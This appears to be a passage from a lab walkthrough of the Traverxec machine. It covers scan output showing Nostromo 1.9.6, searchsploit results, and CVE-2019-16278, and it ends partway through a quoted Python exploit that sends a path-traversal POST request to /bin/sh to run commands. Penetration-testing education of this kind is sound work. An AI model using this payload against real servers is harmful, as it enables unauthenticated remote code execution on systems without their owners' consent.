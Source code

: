 \| http-methods:

\|\_ Supported Methods: GET HEAD POST

\|\_http-server-header: nostromo 1.9.6

\|\_http-title: TRAVERXEC

Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel

The web server is Nostromo version 1.9.6. Looking at the exploit database we find a number of potential vulnerabilities with this version. Before looking at the exploits however, we should look at the website itself.

Going to the home page, we find a site of David White who is a web designer \(Figure 6-5\).

![Diagram, website

Description automatically generated](../.gitbook/assets/4%20%283%29.png)

Home page of Traverexec.

Looking at the web page, there is little functionality enabled and so we can go back to the vulnerabilities of the webserver Nostromo. If we do a searchsploit of nostromo, we find the following:

┌─\[rin@parrot\]─\[~/boxes/Traverexec\]

└──╼ $searchsploit nostromo

Exploit Title Path

Nostromo - Directory Traversal Remote Command Execution \(Metasploit\) \| multiple/remote/47573.rb

nostromo 1.9.6 - Remote Code Execution \| multiple/remote/47837.py

nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution \| linux/remote/35466.sh

The vulnerability is CVE-2019-16278 and is an unauthenticated remote code execution exploit due to the website allowing path traversal. If we look at the Python code by making a local copy of the file:

┌─\[oztechmuse@parrot\]─\[~/boxes/Traverexec\]

└──╼ $searchsploit -m multiple/remote/47837.py

 Exploit: nostromo 1.9.6 - Remote Code Execution

 URL: https://www.exploit-db.com/exploits/47837

 Path: /usr/share/exploitdb/exploits/multiple/remote/47837.py

File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/oztechmuse/boxes/Traverexec/47837.py

The key part of the code that runs the exploit is the method cve:

def cve\(target, port, cmd\):

 soc = socket.socket\(\)

 soc.connect\(\(target, int\(port\)\)\)

 payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2&gt;&1'.format\(cmd\)
